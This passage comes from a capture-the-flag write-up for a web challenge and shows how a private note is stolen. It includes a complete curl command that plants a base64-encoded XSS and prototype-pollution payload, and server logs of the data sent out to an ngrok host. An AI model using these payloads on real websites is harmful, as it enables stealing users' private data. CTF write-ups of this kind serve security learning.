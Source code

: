 The `debugger` and `window.skipIt` were added so we could just interact with recaptcha in the browser, and could prevent our own browser from running the payload and have time to click the report link.  So now all thats left is to visit the page of our public note created with the above command, make sure to have devtools open, run `window.skipIt = true` when the debugger pauses, and then unpause the debugger, and click `share with TJMike`.  Of course you'll also need a server
to receive the exfiltrated data.  We end up with the following request on our server:

```http
21:45:13: GET /?{%22__proto__%22:%20{},%22theme%22:%20{%22cb%22:%20%22document.body.firstElementChild.innerHTML=window.name.toString%22},%22img%22:%20%22/%22,%22payload%22:%20[%22https://0b7660a35154.ngrok.io/?%22,%22%22,%22%22]}Your%20notes22f23db6-a432-408b-a3e9-40fe258d500fCreate%20new%20noteNote:%20Visibility:privatepublic
```

So `22f23db6-a432-408b-a3e9-40fe258d500f` is the private note guid.

### Get the contents of the private note

Now all we should have to do is change the url in our payload, and we should get the contents of the private note.

```sh
╭─zoey@virtual-parrot ~ 
╰─$ curl 'https://pasteurize.web.ctfcompetition.com/' --data-raw 'content[]=;window.name=atob(`eyJfX3Byb3RvX18iOiB7fSwidGhlbWUiOiB7ImNiIjogImRvY3VtZW50LmJvZHkuZmlyc3RFbGVtZW50Q2hpbGQuaW5uZXJIVE1MPXdpbmRvdy5uYW1lLnRvU3RyaW5nIn0sImltZyI6ICIvIiwicGF5bG9hZCI6IFsiPGZvcm0gaWQ9J2NvbmNhdCc%2BaHR0cHM6Ly8wYjc2NjBhMzUxNTQubmdyb2suaW8vPzxkaXY%2BPC9kaXY%2BPC9mb3JtPiIsIjxpZnJhbWUgc3JjZG9jPSc8c2NyaXB0IHNyYz0vdGhlbWU%2FY2I9d2luZG93LnRvcC5jb25jYXQuZmlyc3RFbGVtZW50Q2hpbGQuaW5uZXJUZXh0PXdpbmRvdy50b3AuZG9jdW1lbnQuYm9keS5pbm5lclRleHQudG9TdHJpbmc%2BPC9zY3JpcHQ%2BJz48L2lmcmFtZT4iLCI8aWZyYW1lIHNyY2RvYz0nPHNjcmlwdCBzcmM9L3RoZW1lP2NiPXdpbmRvdy50b3AubG9jYXRpb24uaHJlZj13aW5kb3cudG9wLmNvbmNhdC5pbm5lclRleHQudG9TdHJpbmc%2BPC9zY3JpcHQ%2BJz48L2lmcmFtZT4iXX0%3D`);debugger;if(!window.skipIt)location.href=`https://littlethings.web.ctfcompetition.com/note/22f23db6-a432-408b-a3e9-40fe258d500f?__debug__`;//'
Found. Redirecting to /8d52d02b-e4ff-4939-8a42-096d1d46e295
```

Now lets visit the note we created at `https://pasteurize.web.ctfcompetition.com/8d52d02b-e4ff-4939-8a42-096d1d46e295` and repeat the process above with the debugger and dev tools to send our payload to TJMike.  It might take a few tries for the timings of the callbacks to line up properly.  If done right, your http server should get a request similar to the following

```http
22:12:41: GET /?{%22__proto__%22:%20{},%22theme%22:%20{%22cb%22:%20%22document.body.firstElementChild.innerHTML=window.name.toString%22},%22img%22:%20%22/%22,%22payload%22:%20[%22https://0b7660a35154.ngrok.io/?%22,%22%22,%22%22]}22f23db6-a432-408b-a3e9-40fe258d500fCongratulations!%20You%20came%20to%20the%20end%20of%20the%20world...As%20for%20a%20reward,%20here%20comes%20your%20juicy%20flag%20CTF{When_the_w0rld_c0mes_t0_an_end_all_that_matters_are_these_little_things}Bored?%20Check%20out%20the%20fixed%20version%20https://fixedthings-vwatzbndzbawnsfs.web.ctfcompetition.com%20BUT%20IT%27S%20NOT%20SCORED!%20I.E.%20worth%200%20points%20and%20does%20not%20appear%20in%20challengesback
        Host: 0b7660a35154.ngrok.io
        Pragma: no-cache
        Cache-Control: no-cache
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4182.0 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
        Sec-Fetch-Site: cross-site
        Sec-Fetch-Mode: navigate
        Sec-Fetch-User: ?1
        Sec-Fetch-Dest: document
        Referer: https://littlethings.web.ctfcompetition.com/note/22f23db6-a432-408b-a3e9-40fe258d500f?__debug__
        Accept-Encoding: gzip, deflate, br
        X-Forwarded-Proto: https
        X-Forwarded-For: 104.155.55.51
```
